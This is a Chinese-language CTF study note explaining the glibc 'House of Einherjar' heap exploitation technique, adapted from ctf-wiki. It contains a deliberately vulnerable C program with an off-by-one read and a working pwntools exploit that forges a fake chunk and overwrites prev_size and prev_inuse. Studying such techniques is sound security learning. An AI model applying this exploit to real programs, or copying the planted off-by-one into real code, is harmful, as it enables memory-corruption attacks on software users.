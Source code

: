 House系列的第一个~

参考:
[ctfwiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-einherjar/)

# 介绍
house of einherjar 是一种堆利用技术，由 Hiroki Matsukuma 提出。
该堆利用技术可以强制使得 malloc 返回一个几乎任意地址的 chunk 。
其主要在于滥用 free 中的后向合并操作（合并**低地址**的 chunk），从而使得尽可能避免碎片化。

注意前/后的定义

# 原理

## 后向合并操作
free函数中的后向合并核心操作:
```c
/* consolidate backward */
if (!prev_inuse(p)) {
    prevsize = prev_size(p);
    size += prevsize;
    p = chunk_at_offset(p, -((long) prevsize));
    unlink(av, p, bck, fwd);
}
```
![img](HouseOfEinherjar/images/image.png)

## 利用原理
- 两个物理相邻的 chunk 会共享 prev_size字段，尤其是当低地址的 chunk 处于使用状态时，高地址的 chunk 的该字段便可以被低地址的 chunk 使用。
 因此，我们有希望可以通过写低地址 chunk 覆盖高地址 chunk 的 prev_size 字段。
- 一个 chunk PREV_INUSE 位标记了其物理相邻的低地址 chunk 的使用状态，而且该位是和 prev_size 物理相邻的。(小端序)
- **key!** 后向合并时 新的chunk的位置取决于 `chunk_at_offset(p, -((long) prevsize))`

如果我们能控制chunk得`prev_size`段和`prev_inuse`段 就可以将新的chunk**指向几乎任意位置**!
当然有个点要注意 设置新chunk位置后进行了**unlink**操作 所以要提前在目标位置伪造好chunk 编辑好指针
绕过unlink的检测

## 利用过程

### 溢出前
![img](HouseOfEinherjar/images/image-1.png)

### 溢出
假设p0堆块既可以写prev_size字段 也可以off_by_one写prev_inuse字段
![img](HouseOfEinherjar/images/image-2.png)

### 溢出后
将p1的prev_size字段设置为目的chunk位置与p1的差值 溢出后
`p = chunk_at_offset(p, -((long) prevsize));` 就指向我们的目标地址了
要注意提前布置好fake chunk绕过unlink的检测
![img](HouseOfEinherjar/images/image-3.png)

其实这里的绕过可以简单处理(因为不需要达到unlink修改指针的效果):
```c++
p->fd = p
p->bk = p
```
与unlink的绕过不同
unlink:
```c++
p->fd = &p-3*size
p->bk = &p-2*size
```

以ctfwiki给的代码实例:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void){
    char* s0 = malloc(0x200);　//构造fake chunk
    char* s1 = malloc(0x18);
    char* s2 = malloc(0xf0);　
    char* s3 = malloc(0x20); //为了不让s2与top chunk 合并
    printf("begin\n");
    printf("%p\n", s0);
    printf("input s0\n");
    read(0, s0, 0x200); //读入fake chunk
    printf("input s1\n");
    read(0, s1, 0x19); //Off By One
    free(s2);
    return 0;
}
```
满足利用条件: fakechunk且可写&&off_by_one覆盖prev_inuse

exploit:
```py
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0 
# 
# 把fd和bk都设置为address 简单粗暴绕过(其实是因为得不到&p)
'''
p64(address) * 2是为了绕过
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      
  malloc_printerr ("corrupted double-linked list");
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00"
p.sendline(payload)
p.recvall()
p.close()
```

emm 再理一下
第一个输入s0是在伪造一个堆块吧 从chunk头开始伪造 伪造一个大小为0x100的chunk
然后+payload(0x100)是把下一个"chunk"的prev_size设置为0x100(说明前面那个"chunk"是空闲的)

第二次输入s1目的就是伪造prev_size和prev_inuse
分别改为offset(0x4a0-0x290+0x10)和0
但不是应该覆盖s2的吗...

ooops... got it... 前面的堆块复用了后面堆块的prev_size段...
所以最后覆盖的一个字就是prev_size的 然后再off-by-one修改prev_inuse

